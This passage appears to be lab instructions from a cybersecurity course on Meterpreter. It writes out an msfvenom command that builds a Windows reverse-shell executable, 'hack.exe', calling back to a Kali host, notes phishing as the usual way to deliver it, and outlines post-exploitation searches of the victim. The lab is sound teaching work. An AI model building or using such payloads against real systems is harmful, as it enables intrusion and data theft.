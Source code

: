- Use our Kali machine to create a custom payload that we will use to exploit a vulnerable Windows host (DVW10).

- Create a Meterpreter shell on our Kali machine.

- Use the shell to remotely run commands once the payload is executed. 

  * Specifically, we will use commands to search for all JPG pictures in the vulnerable Windows host.

  * We will also gather system information, application information, and currently logged-on users.

Do not worry about the syntax of the specific payload or the tool that we used to create this payload, `msfvenom`. We will cover custom payloads in the next class.


#### Meterpreter Demonstration

1. First, we'll make a malicious custom payload in Kali Linux. 

  Run the following command. We will be covering the syntax of custom payloads in the next class: 

   - `msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.8 lport=4444 -f exe > hack.exe`

      - This command will create a malicious `hack.exe` file. 


  After the command is run, run `ls` to confirm that the malicious `hack.exe` file has been successfully created.

   ![MSF 1](./Images/MSF_1.png)


2. Launch the DVW10 VM and confirm that the malware file is on the machine. 

   - Navigate to your Downloads folder and verify that `hack.exe` is inside. 

   - A major challenge is actually getting that malicious EXE file onto a victim's target machine. Typically, this is done via a phishing email or other social engineering tactic.

      For this demo, we will assume that this step has already taken place.

    - Don't click the file yet. 

3. Now we're going to use the Metasploit console on the Kali Linux machine to set up a listener. This listener will establish a connection between the two machines once the Windows user clicks the malicious payload.

    - Launch the Metasploit framework: 

      - Run `msfconsole`
